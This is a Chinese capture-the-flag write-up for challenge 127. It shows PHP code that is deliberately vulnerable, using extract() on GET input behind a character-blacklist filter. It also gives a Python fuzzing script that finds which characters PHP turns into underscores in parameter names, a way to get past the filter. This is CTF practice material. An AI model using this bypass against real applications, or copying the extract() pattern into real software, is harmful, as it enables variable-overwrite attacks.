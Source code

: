 

## 127

```php
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];

//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}

if($ctf_show==='ilove36d'){
    echo $flag;
}
```

就是要求`$ctf_show==='ilove36d'`，不过waf里把_过滤掉了
学yu师傅跑一下0-128（不懂php的curl，还是python了）

```php
import requests
from urllib.parse import quote,unquote
url = "http://127.0.0.1/mytest/test1.php"
for i in range(0,129):
    r = requests.get(url,params="ctf"+chr(i)+"show")
    if r.text:
        if chr(i) != quote(chr(i)):
            print(chr(i)+" "+quote(chr(i)))
        else:
            print(chr(i))
```

```php
<?php
if (isset($_GET['ctf_show'])) {
    echo "yes";
}
```

得到：

```
  %20
+ %2B
.
[ %5B
_
```
